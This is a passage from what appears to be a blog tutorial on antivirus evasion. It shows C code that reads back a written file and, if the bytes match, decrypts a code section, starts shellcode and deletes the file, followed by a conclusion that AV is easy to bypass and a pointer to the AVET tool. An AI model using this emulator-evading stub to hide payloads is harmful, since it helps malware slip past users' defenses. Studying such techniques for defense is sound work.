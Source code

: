 </span><span class="crayon-sy">,</span><span class="crayon-h"> </span><span class="crayon-t">NULL</span><span class="crayon-sy">)</span><span class="crayon-sy">;</span></div><div class="crayon-line crayon-striped-line" id="crayon-59ca5e7cae376838414530-22">&nbsp;</div><div class="crayon-line" id="crayon-59ca5e7cae376838414530-23"><span class="crayon-st">if</span><span class="crayon-sy">(</span><span class="crayon-e">ReadFile</span><span class="crayon-sy">(</span><span class="crayon-v">file</span><span class="crayon-sy">,</span><span class="crayon-v">outputbuff</span><span class="crayon-sy">,</span><span class="crayon-cn">4</span><span class="crayon-sy">,</span><span class="crayon-o">&amp;</span><span class="crayon-v">tmp</span><span class="crayon-sy">,</span><span class="crayon-t">NULL</span><span class="crayon-sy">)</span><span class="crayon-sy">)</span><span class="crayon-h"> </span><span class="crayon-sy">{</span></div><div class="crayon-line crayon-striped-line" id="crayon-59ca5e7cae376838414530-24">&nbsp;</div><div class="crayon-line" id="crayon-59ca5e7cae376838414530-25"><span class="crayon-st">if</span><span class="crayon-sy">(</span><span class="crayon-e">strncmp</span><span class="crayon-sy">(</span><span class="crayon-v">buff</span><span class="crayon-sy">,</span><span class="crayon-v">outputbuff</span><span class="crayon-sy">,</span><span class="crayon-cn">4</span><span class="crayon-sy">)</span><span class="crayon-o">==</span><span class="crayon-cn">0</span><span class="crayon-sy">)</span><span class="crayon-h"> </span><span class="crayon-sy">{</span></div><div class="crayon-line crayon-striped-line" id="crayon-59ca5e7cae376838414530-26">&nbsp;</div><div class="crayon-line" id="crayon-59ca5e7cae376838414530-27"><span class="crayon-e">decryptCodeSection</span><span class="crayon-sy">(</span><span class="crayon-sy">)</span><span class="crayon-sy">;</span></div><div class="crayon-line crayon-striped-line" id="crayon-59ca5e7cae376838414530-28">&nbsp;</div><div class="crayon-line" id="crayon-59ca5e7cae376838414530-29"><span class="crayon-e">startShellCode</span><span class="crayon-sy">(</span><span class="crayon-sy">)</span><span class="crayon-sy">;</span></div><div class="crayon-line crayon-striped-line" id="crayon-59ca5e7cae376838414530-30">&nbsp;</div><div class="crayon-line" id="crayon-59ca5e7cae376838414530-31"><span class="crayon-sy">}</span></div><div class="crayon-line crayon-striped-line" id="crayon-59ca5e7cae376838414530-32">&nbsp;</div><div class="crayon-line" id="crayon-59ca5e7cae376838414530-33"><span class="crayon-sy">}</span></div><div class="crayon-line crayon-striped-line" id="crayon-59ca5e7cae376838414530-34">&nbsp;</div><div class="crayon-line" id="crayon-59ca5e7cae376838414530-35"><span class="crayon-e">CloseHandle</span><span class="crayon-sy">(</span><span class="crayon-v">file</span><span class="crayon-sy">)</span><span class="crayon-sy">;</span></div><div class="crayon-line crayon-striped-line" id="crayon-59ca5e7cae376838414530-36">&nbsp;</div><div class="crayon-line" id="crayon-59ca5e7cae376838414530-37"><span class="crayon-sy">}</span></div><div class="crayon-line crayon-striped-line" id="crayon-59ca5e7cae376838414530-38">&nbsp;</div><div class="crayon-line" id="crayon-59ca5e7cae376838414530-39"><span class="crayon-e">DeleteFile</span><span class="crayon-sy">(</span><span class="crayon-v">FILE_PATH</span><span class="crayon-sy">)</span><span class="crayon-sy">;</span></div><div class="crayon-line crayon-striped-line" id="crayon-59ca5e7cae376838414530-40">&nbsp;</div><div class="crayon-line" id="crayon-59ca5e7cae376838414530-41"> </div><div class="crayon-line crayon-striped-line" id="crayon-59ca5e7cae376838414530-42">&nbsp;</div><div class="crayon-line" id="crayon-59ca5e7cae376838414530-43"><span class="crayon-st">return</span><span class="crayon-h"> </span><span class="crayon-cn">0</span><span class="crayon-sy">;</span></div><div class="crayon-line crayon-striped-line" id="crayon-59ca5e7cae376838414530-44">&nbsp;</div><div class="crayon-line" id="crayon-59ca5e7cae376838414530-45"><span class="crayon-sy">}</span></div></div></td>
    </tr>
    </table>
    </div>
    </div>
    <!-- [Format Time: 0.0026 seconds] -->
    <p>
    Needless to say, this works. In fact, AV scanners will generally fail to create and write into a file which is in a path not foreseen. I was surprised at first because I expected AV to self adapt to the host PC, but it is not the case.</p>
    <p><strong>Conclusion</strong></p>
    <p>Antivirus detection systems are not difficult to bypass if you understand how they work. Stay tuned for advanced concepts for bypassing AV. If you cannot wait, I recommend looking at high quality open source tools for pentesters such as AVET which was presented at last Black Hat conference.</p>
    <p>Knowing your opponent works for hackers as well as their targets – learn hackers tools of trade and you&#8217;ll be safer. If you want to check your computer for malware, research malware persistence methods as well as communication with command and control server. Take a look at places where malware usually resides as well as all traffic to and from your machine.</p>
    